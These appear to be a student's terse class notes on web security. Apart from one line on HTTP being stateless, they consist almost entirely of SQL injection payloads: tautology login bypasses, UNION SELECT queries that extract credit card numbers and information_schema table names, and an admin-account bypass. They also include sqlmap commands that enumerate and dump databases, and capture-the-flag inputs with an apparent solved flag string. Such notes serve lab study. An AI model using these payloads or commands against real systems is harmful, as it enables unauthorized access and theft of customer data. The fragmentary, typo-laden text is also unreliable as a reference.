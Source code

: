 # Class 2

HTTP is stateless
Protocols fo not maintain information about prev comms. WebServer cant tell if 2 reqs are from same or multiple clients/browsers


# SQL

**' or '1=1**

**" or "1=1**

**" ' or '1=1 "@gmail.com**

**\' OR "1=1" #**

**Mary Martin' UNION SELECT creditcardnumber FROM customers WHERE customername = 'Mary Martin'; #**

**user → \      password → OR 1=1 AND userName="admin" #**

**spcil/|Pse3cr3etCouponStu.f4rU176**


## sqlmap commands

```bash
sqlmap -r file

sqlmap -r file --dbs

sqlmap -r file --dump tables

```

# Capture The Flags

**' or '1=1**

**" OR "1=1" --**

**'OR'1=1**

**'OR'1=1**

**add empty string option**

**"OR"1=1"#**

**'OR first_name like "_ dmi _" #**


**"OR"1=1"# → Griff" UNION (SELECT 1,2,3,4, table_schema, table_name FROM information_schema.tables) #**




